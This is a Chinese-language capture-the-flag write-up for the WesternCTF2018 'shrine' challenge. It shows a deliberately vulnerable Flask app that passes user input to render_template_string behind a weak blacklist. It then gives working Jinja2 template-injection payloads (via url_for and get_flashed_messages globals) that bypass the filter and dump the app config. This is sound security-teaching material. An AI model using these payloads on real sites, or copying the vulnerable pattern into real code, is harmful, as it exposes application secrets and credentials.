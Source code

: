 # [WesternCTF2018]shrine

## 知识点

`flask`

`python沙箱逃逸`

## 解题

进入首页给了网站源码

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

发现禁用了`config`和`self`，`()`也会置为空，如果`config`和`self`没禁用

如果没有黑名单的时候，我们可以使用`config`，传入 `config`，或者使用`self`，传入 `{{self.__dict__}}`

当`config`,`self`,`()`都被过滤的时候，为了获取讯息，我们需要读取一些例如`current_app`这样的全局变量。

`python`的沙箱逃逸这里的方法是`利用python对象之间的引用关系来调用被禁用的函数对象`。

这里有两个函数包含了`current_app`全局变量，`url_for`和`get_flashed_messages`,我们注入`{{url_for.__globals__}}`得到

![](./img/[WesternCTF2018]shrine-1.png)

然后直接用`payload`读取配置文件

```
{{url_for.__globals__.current_app.config}}
{{url_for.__globals__['current_app'].config}}
```

![](./img/[WesternCTF2018]shrine-2.png)

或者用`get_flashed_messages`

```
{{get_flashed_messages.__globals__.current_app.config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

![](./img/[WesternCTF2018]shrine-3.png)

![](./img/[WesternCTF2018]shrine-4.png)